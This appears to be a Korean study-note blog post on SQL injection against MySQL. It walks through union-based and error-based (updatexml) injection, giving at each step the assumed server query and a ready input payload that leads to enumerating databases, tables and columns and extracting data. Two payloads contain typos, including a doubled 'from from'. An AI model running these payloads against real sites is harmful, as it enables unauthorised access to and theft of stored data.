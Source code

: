```yaml
---
title: "SQL Injection 과정정리"
excerpt: "sql injection 보다 쉽게 할 수 있는 과정을 정리하였다."
tags:
    - Mysql DBIntroduce
    - DB
    - sql injection
last_modified_at: 2023-04-24T09:13:00-05:00
---
```

# 환경
    - MYSQL 서버

<br><br>
# 질의문의 결과가 화면에 보일때.
- 게시판(글이 화면에 나옴), 회원정보(마이페이지), 주소검색, 검색페이지 등


## SQLi 과정
1. 서버에서 어떤 질의문을 사용하는지 추측하기.
	- 질의문 추측 = `select xxxx from xxx where 컬럼명 like '%----%' ...`
2. **SQL Injection** 취약점 존재하는지 확인하기.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' and '1%'='1%' ...`
	- 입력 = `test%' and '1%'='1`
3. 컬럼수 찾기.
	- `order by` 를 이용하여 1씩 증가 시키면서 컬럼수를 찾아준다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' order by 1 -- %' ...`
	- 입력 = `test%' order by 1 -- `
4. data 출력 위치 파악하기.
	- 위에서 찾은 컬럼수를 이용하여 data 출력 위치 파악하기.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1','2','3','4' from dual -- %' ...`
	- 입력 = `test%' union select '1','2','3','4' from dual -- `
5. database 이름 출력하기.
	- 위에서 파악한 출력위치를 이용하여 DB 이름을 알아보자.
	- `select database() from dual` 명령을 이용하면 현재 DB 명이 나온다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',database(),'3','4' from dual -- %' ...`
	- 입력 = `test%' union select '1',database(),'3','4' from dual -- `
6. table 이름 출력하기.
	- 위에서 파악한 DB이름을 이용하여 존재하는 테이블명을 알아보자.
	- `select table_name from information_schema.tables where table_schema='DB명'` 명령을 이용하면 테이블명을 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',table_name,'3','4' from from information_schema.tables where table_schema='DB명' -- %' ...`
	- 입력 = `test%' union select '1',table_name,'3','4' from from information_schema.tables where table_schema='DB명' -- `
7. column 이름 출력하기.
	- 위에서 파악한 table 이름을 이용하여 table의 컬럼명을 알아보자.
	- `select column_name from information_schema.columns where table_name='테이블명'` 명령을 이용하면 해당 table의 컬럼명을 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',column_name,'3','4' from information_schema.columns where table_name='테이블명' -- %' ...
	- 입력 = `test%' union select '1',column_name,'3','4' from information_schema.columns where table_name='테이블명' -- `
8. 정보 빼오기.
	- 위에서 파악한 table명과 해당 table에 대한 column 명을 이용하여 정보를 빼오자!
	- `select column명 from table명` 명령을 이용하여 저장된 정보를 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',column명,'3','4' from table명 -- %' ...`
	- 입력 = `test%' union select '1',column명,'3','4' from table명 -- `
<br><br>




<br><br>

# 질의문의 결과가 화면에 안보일때.
- 로그인, 아이디 중복 체크.

## 조건
- Error 메시지가 화면에 출력될때. ( **Error Bases SQL Injection** ) 

## SQLi 과정
1. 서버에서 어떤 질의문을 사용하는지 추측하기.
	- 질의문 추측 = `select xxxx from xxx where 컬럼명='----' ...`
2. 오류 발생 확인하기. ( db 에러인지 확인하기 )
	- 입력 = `' asd`
	- **syntax error 발생(문법 에러)** 가 발생하는 것을 확인이 가능한지 본다.
3. Error Based SQL Injection Function 동작하는지 확인하기.
	- Syntax error (문법에러) : 문법 틀리면 안됨. 컴파일 할 때 잡아낸다.
	- 논리에러 : 실행이된다.
	- 즉 우리는 논리에러를 발생시켜야 한다.
	- **updatexml** 함수를 이용하자!
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,'test'), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,'test'), null) and '1'='1`
	- `XPATH syntax error: ':test'` 에러를 볼 수 있다.
	- `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(SQL)), null) and '1'='1' ...` test 대신 질의문을 넣어주면 된다.
4. Database 이름 출력하기.
	- `select database() from dual`  로 DB 명 찾기
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select database() from dual)), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,(select database() from dual)), null) and '1'='1`
5. table 이름 출력하기.
	- `select table_name from information_schema.tables where table_schema='DB명' limit 0,1` 로 table 명 찾기.
	- 오류는 하나의 데이터만 보여줄 수 있다. 따라서 출력을 1개로 제한하였다.
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select table_name from information_schema.tables where table_schema='DB명' limit 0,1)), null) and '1'='1' ...` 
	- 입력 = `1' and updatexml(null, concat(0x3a,(select table_name from information_schema.tables where table_schema='DB명' limit 0,1)), null) and '1'='1`
	- `limit` 를 조절하면서 원하는 테이블명을 찾는다.
6. column 이름 출력하기.
	- `select column_name from information_schema.columns where table_name='테이블명' limit 0,1` 로 table에 해당하는 column명 찾기.
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select column_name from information_schema.columns where table_name='테이블명' limit 0,1)), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,(select column_name from information_schema.columns where table_name='테이블명' limit 0,1)), null) and '1'='1`
7. 정보 빼오기
	- 위에서 파악한 table명과 해당 table에 대한 column 명을 이용하여 정보를 빼오자!
	- `select column명 from table명 limit 0,1` 명령을 이용하여 저장된 정보를 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select column명 from table명 limit 0,1)), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,(select column명 from table명 limit 0,1)), null) and '1'='1`